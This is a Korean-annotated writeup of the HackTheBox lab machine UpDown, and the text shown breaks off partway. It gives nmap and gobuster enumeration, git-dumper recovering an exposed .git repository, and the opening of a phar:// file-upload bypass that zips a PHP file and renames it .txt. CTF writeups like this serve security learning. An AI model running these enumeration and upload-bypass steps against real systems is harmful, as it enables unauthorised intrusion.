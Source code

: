 ```yaml
---
layout: post
title: HackTheBox UpDown
subtitle: UpDown WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-17-UpDown/1a290611f444e0d251233ed971a4f9f7_MD5.jpeg)
## Target - 10.129.227.227
### Nmap
```bash
nmap -sC -sV -Pn -p- 10.129.227.227 -o UpDown_AllPort
```

### WEB
```bash
# 호스트 등록
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts

# 디렉토리 탐색
gobuster dir -u siteisup.htb -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt

# 서브도메인 탐색
gobuster vhost -u http://siteisup.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

# 서브도메인 호스트 등록
echo "10.129.227.227 dev.siteisup.htb" | sudo tee -a /etc/hosts

# git dump
git-dumper http://siteisup.htb/dev/.git dev

# config 보기
cat .htaccess
```

![](/assets/images/posts/2025-03-17-UpDown/284ba3fd6ad877528a4f3670a2f6ce5b_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/3dad85a3644415a5b33e41cbffc9aec7_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/a41302bb81f42bed44f2386fe38e06c2_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/caba1c0c482717b28220a2be17b2c742_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/fb818fef54497e9853afd3ea110a3218_MD5.jpeg)![](/assets/images/posts/2025-03-17-UpDown/3081fbcce96767472ac559c5c7d2bcd1_MD5.jpeg)

### phar:// Exploit
```bash
# 파일 필터링 로직 및 upload 경로 확인
cat checker.php

echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt
```